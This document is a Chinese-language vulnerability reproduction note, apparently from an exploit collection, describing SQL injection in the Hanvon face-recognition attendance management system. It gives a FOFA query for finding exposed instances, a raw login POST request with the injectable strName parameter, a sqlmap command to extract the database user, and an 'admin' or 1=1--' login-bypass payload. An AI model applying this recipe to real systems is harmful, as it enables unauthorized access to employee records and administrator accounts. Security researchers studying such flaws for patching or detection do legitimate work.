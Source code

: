 # 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

```
汉王人脸考勤管理系统
```

## FOFA

```
title=""汉王人脸考勤管理系统""
```

## 漏洞复现



登录界面如下



![](./images/202202101908168.png)



请求包如下



```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```



其中strName参数存在注入



```shell
sqlmap -r postwang.txt -p strName  --current-user
```



![](./images/202202101908817.png)



```plain
user: admin' or 1=1--
pass: admin
```



万能密码绕过登录



![](./images/202202101908955.png)

## 